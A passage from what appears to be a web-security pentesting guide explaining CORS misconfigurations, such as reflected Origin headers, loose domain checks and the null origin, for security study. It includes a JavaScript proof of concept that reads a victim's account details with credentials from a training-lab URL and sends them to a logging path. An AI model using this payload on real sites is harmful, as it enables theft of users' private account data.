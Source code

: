 Note that usually (depending on the content-type and headers set) in a **GET/POST request no pre-flight request is sent** (the request is sent **directly**), but if you want to access the **headers/body of the response**, it must contains an _Access-Control-Allow-Origin_ header allowing it.\
**Therefore, CORS doesn't protect against CSRF (but it can be helpful).**

## Exploitable misconfigurations

Notice that most of the **real attacks require `Access-Control-Allow-Credentials`** to be set to **`true`** because this will allow the browser to send the credentials and read the response. Without credentials, many attacks become irrelevant; it means you can't ride on a user's cookies, so there is often nothing to be gained by making their browser issue the request rather than issuing it yourself.

One notable exception is when the **victim's network location functions as a kind of authentication.** You can use a victim’s browser as a proxy to bypass IP-based authentication and access intranet applications. In terms of impact this is similar to DNS rebinding, but much less fiddly to exploit.

### Reflected `Origin` in `Access-Control-Allow-Origin`

In the real world this cannot happen as **this 2 values of the headers are forbidden together**.\
It is also true that a lot of developers want to **allow several URLs in the CORS**, but subdomain wildcards or lists of URLs aren't allowed. Then, several developers **generates** the \*\*`Access-Control-Allow-Origin`\*\*header **dynamically**, and in more than one occasion they just **copy the value of the Origin header**.

In that case, the **same vulnerability might be exploited.**

In other cases, the developer could check that the **domain** (_victimdomain.com_) **appears** in the **Origin header**, then, an attacker can use a domain called **`attackervictimdomain.com`** to steal the confidential information.

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://acc21f651fde5631c03665e000d90048.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

### The `null` Origin

`null` is a special value for the **Origin** header. The specification mentions it being triggered by redirects, and local HTML files. Some applications might whitelist the `null` origin to support local development of the application.\
This is nice because **several application will allow this value** inside the CORS and any **website can easily obtain the null origin using a sandboxed iframe**:
